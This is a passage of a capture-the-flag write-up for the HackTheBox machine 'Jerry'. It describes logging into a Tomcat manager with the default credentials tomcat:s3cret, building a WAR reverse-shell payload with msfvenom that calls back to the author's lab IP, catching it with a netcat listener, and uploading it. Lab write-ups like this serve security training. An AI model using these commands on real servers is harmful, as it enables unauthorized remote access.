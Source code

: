 However, when we click cancel, we get this page, which happens to list the default Tomcat credentials of `tomcat:s3cret`.

<a href="/assets/htb-jerry/tomcat_default_creds.png"><img src="/assets/htb-jerry/tomcat_default_creds.png" width="95%"></a>

If we try to login to the dialog with these credentials, we get access to the web app manager.

<a href="/assets/htb-jerry/tomcat_webapp_manager.png"><img src="/assets/htb-jerry/tomcat_webapp_manager.png" width="95%"></a>

Once we're here, we can see the seciton that allows for WAR file uploads and deployments. We know that `msfvenom` allows for the creation of WAR packages, so lets' create one. The below command will create a WAR file with a Java reverse shell payload, calling back to my machine, on port 7500. 

`msfvenom -p java/shell_reverse_tcp LHOST=10.10.14.17 LPORT=7500 -f war -o shell.war`  

We just need to run `nc -lvnp 7500` to open a listener to catch it once deployed.

We can use the *WAR file to deploy* section to upload the `shell.war` file. Once uploaded, we can see that it's added to the list of applications on the web app manager.

<a href="/assets/htb-jerry/uploaded_shell.png"><img src="/assets/htb-jerry/uploaded_shell.png" width="95%"></a>

